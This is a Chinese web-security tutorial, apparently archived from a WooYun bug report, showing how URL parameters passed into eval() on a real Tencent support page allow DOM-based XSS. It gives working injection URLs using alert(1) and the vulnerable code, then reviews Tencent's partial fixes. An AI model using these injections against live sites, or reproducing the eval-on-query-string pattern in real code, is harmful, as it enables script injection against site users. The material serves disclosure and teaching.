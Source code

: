 # 10\. Dom Xss 进阶 [邂逅 eval]

> 来源：[10\. Dom Xss 进阶 [邂逅 eval]](http://www.wooyun.org/bugs/wooyun-2010-016197)

## 简要描述

前面的教程，说到了显式输出和隐式输出。但是不论怎么样，因为最终 javascript 都会通过 document.write 或 innerHTML 将内 容输出到网页中，所以我们总是有办法看到输出到哪里。 但是有时候，我们的输出，最终并没有流向 innerHTML 或 document.write， 而是与 eval 发生了邂逅，我们该怎么挖掘并利用呢？

## 详细说明

1\. 我们直接上例子。

```
http://kf.qq.com/search_app.shtml?key=aaaaa 
```

和前面的不同之处，这次我们搜索源代码和调试工具都看不到任何东西。

![image](img/Image_047.jpg)

2\. 这个时候，我们可以看看 Console，看看有没有其它有用的东西～～

一般来说，默认情况下，是不会有问题的。我们可以给参数加一些特殊符号。

这里我比较习惯用`\`，因为这玩意比较好使。当然你也可以用其它比较特殊的符号，比如双引号，单引号，只是被过滤掉的几率比较大。

这个时候，我们看看 Console 里面，多出了一条错误。

![image](img/Image_048.jpg)

我们可以点右侧，直接定位到错误代码。

![image](img/Image_049.jpg)

3\. 点进去后，可以看到是哪个地方出错了。

![image](img/Image_050.jpg)

我们来看看这段代码：

```
var getarg = function()
{
    var url = window.location.href; 
    var allargs = url.split("?")[1];
    if (allargs!=null && allargs.indexOf("=")>0)
    {
        var args = allargs.split("&"); 
        for(var i=0; i<args.length; i++)
        {
            var arg = args[i].split("="); 
            eval('this.'+arg[0]+'="'+arg[1]+'";');
        }
    }
}; 
```

和上一节教程类似，这段代码，实际上也是一个获取地址栏参数的代码。

比如，地址栏是 `key=aaaa;` 那么 `arg[0]` 就是字符串`'key'`, `arg[1]` 就是字符串 `'aaaa'`; 那么 eval 这句就是执行的 `eval('this.key="aaaa";')`

![image](img/Image_051.jpg)

这样一来 , `this.key="aaaa";`这句就被执行了。

4\. 如果这里我们把 key 换个写法呢？

```
this.key="aaaa"; this.key;alert(1);//="aaaa"; 
```

如下图：

![image](img/Image_052.jpg)

那么是不是将会执行我们的 `alert(1);`呢？

5\. 根据上面内容，我们可以构造代码。

```
http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaa 
```

HOHO～，如我们所愿的弹出了。

![image](img/Image_053.jpg)

6\. 不知道看完上面的，有没有娃注意到，后面的 aaaa 不是也可以构造吗？

```
this.key="aaaa"; 
```

换为

```
this.key="aaa";alert(1);//"; 
```

确实是如此 :)

```
http://kf.qq.com/search_app.shtml?key=aaa";alert(1);// 
```

这个在 IE 下一样是可以的。

但是这样在 chrome 下却不行。 原因其实上面一节教程也提到过。 chrome 会自动对`"`, `>`, `<` 进行转换。

因而 `this.key="aaa";alert(1);//";` 会变成 `this.key="aaa%22;alert(1);//";` 从而失效。

7.上面就是本篇教程了，我们再来看看题外话。 其实以上问题，不是单独存在的。在另外一个页面也是存在的。 更多内容，参见本篇漏洞修复。

## 修复方案

参照你们已经修复的类似文件即可。

```
http://kf.qq.com/wsearch.shtml 
```

的

```
http://kf.qq.com/js/wsearch.js 
```

本来上面这个文件也是存在漏洞的，估计这个位置已经被人报告给腾讯了，因而腾讯加了一次防御。我们看看腾讯的防御措施。

```
var getarg = function(){
    .... 省略相同部分...
    eval('this.' + arg[0] + '="' + HtmlAttributeEncode(arg[1]) + '";');
    .... 省略相同部分...
} 
```

也就是说，腾讯这里对后面的 `arg[1]` 进行了过滤。 接着，这个问题又被再次报告了，因而前些时候，腾讯又进一步做了修复。

```
var getarg = function(){
    .... 省略相同部分...
    if (arg[0] != null && arg[1] != null && (arg[0] == 'page' || arg[0] == 'count' || arg[0] == 'tag'
    || arg[0] == 'key' || arg[0] == 'total') )
    {
        eval('this.' + arg[0] + '="' + HtmlAttributeEncode(arg[1]) + '";');
    }
    .... 省略相同部分...
} 
```

这一次，腾讯对 arg[0]进行了判断。

哈，补了东墙，补西墙。 不过呢？补了这个 wsearch.js 文件，还有我们现在分析的这个([`kf.qq.com/js/search_app.js`](http://kf.qq.com/js/search_app.js](http://kf.qq.com/js/search_app.js](http://kf.qq.com/js/search_app.js)) 文件。